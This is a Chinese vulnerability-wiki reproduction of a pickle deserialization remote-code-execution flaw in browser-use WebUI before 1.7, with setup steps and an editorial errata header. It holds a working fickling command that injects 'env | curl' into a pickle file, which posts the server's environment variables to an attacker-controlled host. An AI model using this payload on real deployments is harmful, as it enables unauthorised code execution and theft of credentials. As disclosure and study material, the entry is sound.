




# browser-use-WebUI-pickle-反序列化漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：browser-use WebUI AI Agent服务
- 文献类型：不安全反序列化复现
- 版本、权限及部署边界：文中<1.7，测试v1.6、Python3.11、Gradio5.23.0，网络可达配置加载接口且无额外认证
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 版本字段误抽pip install命令；实际AI Web服务并非浏览器本体，关联AI目录实体
2. 启动仅127.0.0.1却称your-ip远程可访问，应明确本机实验与外部暴露条件；无鉴权要绑定部署设置
3. Windows copy命令与后续Unix env|curl载荷平台混用，缺实际服务OS说明
4. pickle.load之前缺校验才是关键，之后isinstance(dict)无防护作用；推荐禁用不可信pickle或安全格式，升级需落实1.7/提交
5. 披露时间2025-04-28与参考研究04-23不同，应区分文库日期/首次公开
6. 来源commit与原始研究完整，独立环境兼容经验保留；外发env样例可能包含凭据，不宜作为最小验证

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/browser-use/web-ui/commit/7fdf95edaeaf2505b36c10966b7b8d65359f1de6>
- 原文参考链接（未重新核验）：<https://research.kudelskisecurity.com/2025/04/23/getting-rce-on-browser-use-web-ui-ai-agent-instances/>
- 原文参考链接（未重新核验）：<https://github.com/browser-use/web-ui/tree/v1.6>
- 原文参考链接（未重新核验）：<https://github.com/browser-use/web-ui.git>
- 原文参考链接（未重新核验）：<http://your-ip:7788/`，此时>
- 原文参考链接（未重新核验）：<https://github.com/trailofbits/fickling>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

browser-use WebUI 是基于 browser-use 的 AI Agent 应用。2025 年 4 月，互联网上披露其旧版接口 update_ui_from_config 存在一个 pickle 反序列化漏洞，未经授权的远程攻击者可以利用该接口发送恶意的序列化数据，实现在服务端执行任意代码，导致服务器失陷。

参考链接：

- https://github.com/browser-use/web-ui/commit/7fdf95edaeaf2505b36c10966b7b8d65359f1de6
- https://research.kudelskisecurity.com/2025/04/23/getting-rce-on-browser-use-web-ui-ai-agent-instances/
- https://github.com/browser-use/web-ui/tree/v1.6

## 披露时间

2025-04-28

## 漏洞影响

```
browser-use WebUI < 1.7
```

## 环境搭建

根据 [官方文档](https://github.com/browser-use/web-ui/tree/v1.6)，执行以下命令搭建并启动一个 1.6 版本的 browser-use WebUI：

```
# 检出 1.6 版本
git clone https://github.com/browser-use/web-ui.git
cd web-ui/
git checkout v1.6

# 创建 python 3.11 虚拟环境（官方文档为 uv，此处为 anaconda）
conda create -n web-ui python=3.11
conda activate web-ui

# 安装依赖
pip install -r requirements.txt
playwright install

# 配置环境
copy .env.example .env

# 启动服务
python webui.py --ip 127.0.0.1 --port 7788
```

注意，除了官方 `requirements.txt` 中的 python 依赖外，需要另外安装 `socksio` 和 `pysocks`，回退 `gradio` 至旧版本，否则将引发错误：

```
pip install socksio pysocks
pip install gradio==5.23.0
```

环境启动后，访问 `http://your-ip:7788/`，此时 WebUI 1.6 已经成功运行。




## 漏洞复现

漏洞位于 `src/utils/default_config_settings.py`，服务器未对用户上传的 `.pkl` 配置文件进行校验，攻击者可以加载包含任意代码的恶意 pickle 文件：




首先，我们创建一个名为 `default.pkl` 的常规 pickle 配置文件，其中包含默认的 WebUI 配置：

```python
import pickle
import uuid
import os

def default_config():
    """Prepare the default configuration"""
    return {
        "agent_type": "custom",
        "max_steps": 100,
        "max_actions_per_step": 10,
        "use_vision": True,
        "tool_calling_method": "auto",
        "llm_provider": "openai",
        "llm_model_name": "gpt-4o",
        "llm_temperature": 1.0,
        "llm_base_url": "",
        "llm_api_key": "",
        "use_own_browser": os.getenv("CHROME_PERSISTENT_SESSION", "false").lower() == "true",
        "keep_browser_open": False,
        "headless": False,
        "disable_security": True,
        "enable_recording": True,
        "window_w": 1280,
        "window_h": 1100,
        "save_recording_path": "./tmp/record_videos",
        "save_trace_path": "./tmp/traces",
        "save_agent_history_path": "./tmp/agent_history",
        "task": "go to google.com and type 'OpenAI' click search and give me the first url",
    }
    
def load_config_from_file(config_file):
    """Load settings from a UUID.pkl file."""
    try:
        with open(config_file, 'rb') as f:
            settings = pickle.load(f)
        return settings
    except Exception as e:
        return f"Error loading configuration: {str(e)}"
        
def save_config_to_file(settings, save_dir="./tmp/webui_settings", name=None):
    """Save the current settings to a UUID.pkl file with a UUID name."""
    os.makedirs(save_dir, exist_ok=True)
    outname = f"{uuid.uuid4()}.pkl"
    if name is not None:
        outname = name
    config_file = os.path.join(save_dir, outname)
    with open(config_file, 'wb') as f:
        pickle.dump(settings, f)
    return f"Configuration saved to {config_file}"
    
def update_ui_from_config(loaded_config):
    if isinstance(loaded_config, dict):
        print("load success")
        return loaded_config.get("agent_type", "custom")
    else:
        pass
        print("not a dict object")
    return "foobar"
    
if __name__ == "__main__":
    save_config_to_file(default_config(), save_dir=".", name="default.pkl")
```

接下来，我们安装 [fickling](https://github.com/trailofbits/fickling) 并使用它将恶意代码注入 pickle 文件。以下命令将生成一个名为 `malicious.pkl` 的恶意文件，该文件在加载时，将运行 `env | curl -XPOST http://your-ip:9999 --data-binary @-` ，泄露目标服务器的环境变量到攻击者服务器：

```
# 安装依赖
python -m pip install fickling

# 注入恶意代码
fickling --inject "os.system('env | curl -XPOST http://your-ip:9999 --data-binary @-')" default.pkl > malicious.pkl
```

最后，我们通过 WebUI 的 Configuration 选项卡加载此文件：




监听 `9999` 端口，即可接收到 `env` 的执行结果：




## 漏洞修复

升级至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
